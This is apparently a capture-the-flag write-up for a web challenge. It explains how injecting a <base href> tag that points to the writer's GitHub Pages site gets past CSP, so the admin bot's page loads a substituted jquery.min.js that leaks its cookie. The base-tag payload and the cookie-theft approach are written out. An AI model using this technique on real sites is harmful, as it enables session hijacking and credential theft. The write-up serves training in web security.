






We are given a webpage with a `/vuln` endpoint to test payloads and a `/flag` endpoint that will visit the `/vuln` endpoint with our payload using a headless browser.  



CSP headers are added to each request to circumvent any XSS attempts. Traditianal XSS techniques like injecting `<script>` tags dont work for some reason.  



The `/vuln` endpoint inherits from the `base.html` template, which loads its own JS scripts into the webpage.  



We can create our own malicious `jquery.min.js` file and store it on our own server to overwrite the current one being loaded, which will instead redirect to the `/memo` endpoint and log the admin browser's cookie with the flag.  



After hosting the malicious script on github pages, we can inject this into the `/vuln` endpoint, which will cause the webpage to resolve all loaded scripts to our own exploit server.  

```html
<base href='https://jeff-160.github.io/'>
```

Submitting the payload in the `/flag` endpoint will then give us the flag.  

